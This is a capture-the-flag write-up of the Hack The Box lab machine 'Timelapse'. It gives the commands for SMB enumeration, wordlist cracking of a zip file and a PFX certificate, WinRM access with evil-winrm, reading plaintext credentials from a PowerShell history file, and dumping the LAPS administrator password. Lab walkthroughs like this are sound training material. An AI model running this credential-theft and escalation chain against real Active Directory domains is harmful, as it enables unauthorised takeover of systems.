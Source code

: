 add dc01.timelapse.htb and timelapse.htb to /etc/hosts
SMB enumeration 
```
crackmapexec smb dc01.timelapse.htb
```
```
smbclient -L //dc01.timelapse.htb -N
```
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        Shares          Disk      
        SYSVOL          Disk      Logon server share 
downloaded a locked zip file to crack with john
```
zip2john file.zip > zip.john
john zip.john
```
john took too long. ran this instead 
```
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt FILE
```
PASSWORD FOUND!!!!: pw == supremelegacy
pfx file found using tool below to crack 
https://github.com/crackpkcs12/crackpkcs12
```
crackpkcs12 -d /usr/share/wordlists/rockyou.txt legacyy_dev_auth.pfx
```

Dictionary attack - Starting 22 threads

*********************************************************
Dictionary attack - Thread 16 - Password found: thuglegacy
*********************************************************
extracting the key 
```
openssl pkcs12 -in legacyy_dev_auth.pfx -out legacy.pem
```
I’ll decrypt the key using the password I set above so I don’t have to remember it:
```
openssl rsa -in legacy.pem -out legacy.key
```
And dump the certificate:
```
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out legacyy_dev_auth.crt
```
`evil-winrm` is the best tool for connecting to WinRM from a Linux host. Looking at the usage shows how I’ll use these keys to connect:
```
evil-winrm -S -c legacyy_dev_auth.crt -k legacy.key -i timelapse.htb
```
Checking the powershell history
```
Get-Content C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt
```
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
LOGIN WITH NEW CREDS
```
evil-winrm -S -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -i timelapse.htb
```
To read the LAPS password, I just need to use `Get-ADComputer` and specifically request the `ms-mcs-admpwd` property:
```
Get-ADComputer DC01 -property 'ms-mcs-admpwd'
```

DistinguishedName : CN=DC01,OU=Domain Controllers,DC=timelapse,DC=htb
DNSHostName       : dc01.timelapse.htb
Enabled           : True
ms-mcs-admpwd     : .[;!1K%-%K69SAdfdG1dFY5&
Name              : DC01
ObjectClass       : computer
ObjectGUID        : 6e10b102-6936-41aa-bb98-bed624c9b98f
SamAccountName    : DC01$
SID               : S-1-5-21-671920749-559770252-3318990721-1000
UserPrincipalName :
LOGIN WITH LOCAL ADMIN
```
evil-winrm -S -i timelapse.htb -u administrator -p '.[;!1K%-%K69SAdfdG1dFY5&'
```
look at domain admins group and check out TRX for root.txt file
